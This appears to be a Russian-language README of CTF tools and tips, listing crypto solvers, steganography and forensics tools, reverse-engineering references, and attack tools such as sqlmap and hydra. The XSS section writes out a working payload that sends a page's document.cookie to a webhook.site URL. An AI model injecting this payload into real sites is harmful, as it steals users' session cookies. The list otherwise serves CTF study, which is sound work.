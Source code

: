###### РЕКОМЕНДУЮ СТАВИТЬ [КАЛИ ЛИНУКС](https://www.kali.org/) И ЗАРАНЕЕ СТАВИТЬ ВСЁ ИЗ ВАШЕЙ КАТЕГОРИИ

# Cryptography
- [quip quip](https://quipqiup.com/)
  - решалка криптограм которая стремиться к минимальной энропии(старается организовать слова)
- [cryptii](https://cryptii.com/)
  - многоуровневые шифрования/дешифрования
- [b64/32/url/hash/file en/de/coder](https://emn178.github.io/online-tools/base32_decode.html)
  - полезная штука
- [dcode (france)](https://www.dcode.fr/rot-13-cipher)
  - расшифровка всего
  - вбиваете в поиск шифр и оно откроет решалку данного шифра
  - умеет решать даже судоку)
- [crack station](https://crackstation.net/)
  - расшифровывает некоторые хеши
  - богатая база хешей(радужная таблица) 15 gb
- [hashes.com](https://hashes.com/en/decrypt/hash)
  - расшифровывает некоторые хеши
- [Hash identifier](https://www.kali.org/tools/hash-identifier/)
  - Проверка какой это хеш
  - [Online 1](https://www.tunnelsup.com/hash-analyzer/)
  - [Online 2](https://hashes.com/en/tools/hash_identifier)

# Network
- [wireshark](https://www.wireshark.org/#download)
  - в основном для загрузки pcap файлов содержащих кучу сетевых пакетов
  - внимательно читайте задание и ищите то что говорят
- [fiddler](https://www.telerik.com/download/fiddler-everywhere) 
  - подмена ответов запросов
- [burp suite](https://portswigger.net/burp/communitydownload)
  - подмена запросов и их отправка
  - и много других неизученых мною фич

# Web
#### XSS:
- Использовать webhook.site для возвратного получения данных(callback)
- <img src=x onerror=this.src='https://webhook.site/fad40d81-20a3-4ce9-9399-0c9a9a6e6a24/'+document.cookie;>
- В примере выше я отправляю на вебхук куки в качестве открытия страницы с названием куки

#### Extensions:
- шпоры по sql и тд
  - Firefox: https://addons.mozilla.org/en/firefox/addon/hacktools/ 
  - Chrome: https://chrome.google.com/webstore/detail/hack-tools/cmbndhnoonmghfofefkcccljbkdpamhi
  - ![img.png](img.png)

#### VPN:
- [windscribe](https://windscribe.com)
  - делаете аккаунт, затем в настройках аккаунта вводиться промокод "ПИЗДЕЦ" дает 30 гб
- [cloudflare warp](https://1.1.1.1/)
  - впн от cloudflare 
# Stenography
- Восстановление удаленных файлов
- Контейнеры 
  - Veracrypt, Truecrypt
- exiftool {имя_исполнительного_файла}
  - ищет метаданные
- Binwalk 
  - поиск исполняемых и других файлов в картинке
- grep -i "flag{"
  - поиск флага в прямую
- [dir binary search](python_tools/dir_binary_search.py)
  - в прямую ищет байты в директории рекурсивно
- [tineye](https://tineye.com/)
  - поиск по картинке
- [imagemagick](https://imagemagick.org/index.php)
  - манипуляция картинками
- [stegsolve.jar](https://github.com/zardus/ctf-tools/blob/master/stegsolve/install)
  - часто решает задачу сразу
- [steghide](https://steghide.sourceforge.net/download.php)
  - чтобы скачать нужен ВПН
  - steghide --extract -sf {имя_файла}
  - попытка найти что-либо в файле
- [pngcheck](http://www.libpng.org/pub/png/apps/pngcheck.html)
  - проверка на целостность картинки
- [zsteg](https://github.com/zed-0xff/zsteg)
  - поиск чего либо в PNG, BMP
- [smart deblur](http://smartdeblur.net/)
  - убирает размывание с фотографии
- [stegseek](https://github.com/RickdeJager/stegseek#releases)
  - перебирает все пароли 
  - [kali](https://www.kali.org/tools/stegcracker/)
- https://futureboy.us/stegano/decinput.html
- http://stylesuxx.github.io/steganography/
- https://www.mobilefish.com/services/steganography/steganography.php
- https://manytools.org/hacker-tools/steganography-encode-text-into-image/
- https://steganosaur.us/dissertation/tools/image
- https://georgeom.net/StegOnline

# Forensics
- Дампы памяти (.mem файлы) 
  - HxD Hex Editor 
    - редактор сырых данных
  - Volatility 
    - инструмент поиска и анализа инфы (ТОП)
  - Foremost 
    - поиск файлов из дампа


# Assembler
- file {имя_исполнительного_файла}
  - даёт информацию о расширении, подписи и формате
  - иногда организаторы могут дать бинарник, который окажется другим файлом, например картинкой
- strings -a {имя_исполнительного_файла}
  - ищет все строки в исп. фале
- base64
  - в интернете куча декодеров для этого шифра
  - часто используется
- [Ida Decompiler](https://out7.hex-rays.com/files/idafree77_windows.exe)
  - визуализация кода в виде графа
- [Assembler Reference](http://ref.x86asm.net/coder32.html#modrm_byte_16)
  - это сайт с инструкциями в ассемблере и их значениями в шестнадцатеричной системе счисления.
- [GDB Documentation](https://www.sourceware.org/gdb/documentation/)
  - мануал по gdb
- [Radare2](https://github.com/radareorg/radare2)
  - красивый gdb
- [BenEater](https://www.youtube.com/c/BenEater?app=desktop)
  - ютубер, объясняет ассемблер

# Vulnerability search
- [snyk-cli](https://docs.snyk.io/snyk-cli)
  - имбище(must have)
  - Ищет уязвимости в определенной папке.
  - Для тех заданий, где предоставлены исходники.
  - Даже если цель задания в другом, сканируйте код всё равно, может быть обходной путь.
- [sqlmap](https://sqlmap.org/)
  - Взлом sql и поиск уязвимостей в sql базе
- [thc-hydra](https://www.kali.org/tools/hydra/)
  - Bruteforce универсальный - thc-hydra
  - [Github](https://github.com/vanhauser-thc/thc-hydra)
- [Math.random() JS](https://www.youtube.com/watch?v=-h_rj2-HP2E)
  - взлом псевдо рандома в js
- [wappalayzer](https://addons.mozilla.org/en-US/firefox/addon/wappalyzer/)
  - получения технологий которые использует сайт
  <details>
    <summary>Картинка</summary>
    <img src="img_1.png">
  </details>
- [Insecure Deserialization Attack](https://www.youtube.com/watch?v=jwzeJU_62IQ)
  - атака на десиариазацию(восстановление обьектов из файла)
- [HTTP pollution](https://www.youtube.com/watch?v=QVZBl8yxVX0)
  - подмена параметров
- [XSS guide](https://www.youtube.com/watch?v=EoaDgUgS6QA)
  - полный разбор XXS(инъекция скрипта вместо текста)
- [Cross-Site Request Forgery](https://www.youtube.com/watch?v=eWEgUcHPle0)
  - получение куки через подмен получателя куки

# Uncategorized(НАДО СОРТИТЬ!!!):
- [ctf-checklist](https://fareedfauzi.gitbook.io/ctf-checklist-for-beginner/)
- ![img_2.png](img_2.png)
  ###### [CTFCheatsheet.xmind](CTFCheatsheet.xmind)